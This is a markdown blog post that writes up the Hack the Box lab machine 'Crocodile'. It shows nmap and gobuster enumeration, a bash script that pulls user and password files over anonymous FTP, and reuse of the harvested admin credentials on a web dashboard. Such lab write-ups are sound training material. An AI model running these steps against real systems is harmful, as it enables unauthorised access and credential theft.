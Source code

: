 +++
title = "Crocodile on Hack the Box Write-up"
author = ["funcsec"]
date = 2022-01-23
publishDate = 2022-01-23
lastmod = 2022-01-23T23:17:22-08:00
tags = ["linux", "ftp", "gobuster"]
categories = ["writeup", "redteam"]
draft = false
toc = "true +"
omit_header_text = "+"
background_color_class = "bg-black-60"
description = "Write-up on Crocodile from Hack the Box"
featured_image = "images/george-shaw_st-domingo-crocodile.jpg"
images = ["images/george-shaw_st-domingo-crocodile.jpg"]
+++

Sometimes I like these quick, single vulnerability boxes because I can work on the speed of reporting.
Find the flag, then go back and answer the questions required to submit the flag.
Plus add a couple notes and modifications to the toolset in the notes, like the different wordlist for enumeration `http`.

---


## Executive Summary {#executive-summary}

The target machine suffered from broken access control vulnerability that allow for the harvesting of active user credials from FTP.
Those same credentials could be used to login to a restriced part of the web application.


## Attack Narrative {#attack-narrative}

First, to make attacking the box easier, the ip address was set in the `/etc/hosts` file of the attacking machine.
This is to make the `crocodile` resolve to the IP, rather than continuing to put in the IP.
The IP will be notated as `crocodile` or `$ip` moving forward.

```bash
nmap -sV -sC $ip
```

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-24 00:29 EST
Nmap scan report for crocodile (10.129.252.80)
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```

The `nmap` scan indicated that there was an open port 21, typically used for the FTP service.
With the `-sC` flag, `nmap` enumerates any files available on the FTP service that are available to the `Anonymous` user.
Those accessable files were then downloaded.

```bash
#!/bin/bash
set -euo pipefail
IP="$ip"
PORT=21
USER="anonymous"
PASS="anonymous"

ftp -inv -P $PORT $IP <<EOF
user $USER $PASS
pass
get allowed.userlist
get allowed.userlist.passwd
bye
EOF
echo "allowed.userlist ==============================="
cat "allowed.userlist"
echo "allowed.userlist.passwd ========================"
cat "allowed.userlist.passwd"
```

```text
Connected to crocodile.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
Passive mode: off; fallback to active mode: off.
local: allowed.userlist remote: allowed.userlist
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
  0% |                                   |     0        0.00 KiB/s    --:-- ETA100% |***********************************|    33       96.19 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.38 KiB/s)
local: allowed.userlist.passwd remote: allowed.userlist.passwd
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
  0% |                                   |     0        0.00 KiB/s    --:-- ETA100% |***********************************|    62      282.92 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.73 KiB/s)
221 Goodbye.
allowed.userlist ===============================
aron
pwnmeow
egotisticalsw
admin
allowed.userlist.passwd ========================
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

It was possible that the credentials harvested here could be used to access another FTP user.
The most intriguing were the admin credentials of `admin:rKXM59ESxesUFHAd`.

```text
kali@kali-vm:~$ ftp -inv -P 21 crocodile
Connected to crocodile.
220 (vsFTPd 3.0.3)
ftp> user admin rKXM59ESxesUFHAd
530 This FTP server is anonymous only.
Login failed.
```

Unfortunately, this was not the case `FTP server is anonymous only`.
The moving onto the next service on port 80.
Beginning was to enumerate the http service on port 80 with `gobuster`.

```text
kali@kali-vm:~$ gobuster dir -u http://crocodile:80 -w /usr/share/dirb/wordlists/common.txt

kali@kali-vm:~$ ===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://crocodile:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/24 00:50:50 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/assets               (Status: 301) [Size: 307] [--> http://crocodile/assets/]
/css                  (Status: 301) [Size: 304] [--> http://crocodile/css/]
/dashboard            (Status: 301) [Size: 310] [--> http://crocodile/dashboard/]
/fonts                (Status: 301) [Size: 306] [--> http://crocodile/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 303] [--> http://crocodile/js/]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/01/24 00:51:30 Finished
===============================================================
```

The most interesting result was the page `/dashboad/` which contained a login page.

{{< figure src="/ox-hugo/crocodile_login.php.png" >}}

Obviously the next step was to try the admin credentials harvested from the FTP service.
Trying `admin:rKXM59ESxesUFHAd` was successful!

The flag was displayed as the banner of the dashboard, the following is the HTML source.

```html
<h1 class="h3 mb-0 text-gray-800">Here is your flag: [[ REDACTED ]]</h1>
```

The flag was found. It was `HTB{[[ REDACTED ]]}`.

---

Fun and fast single flag exercise!
The next couple will all come from Proving Grounds.
Not sure if I like "Attack Narritive" better than "Methodology".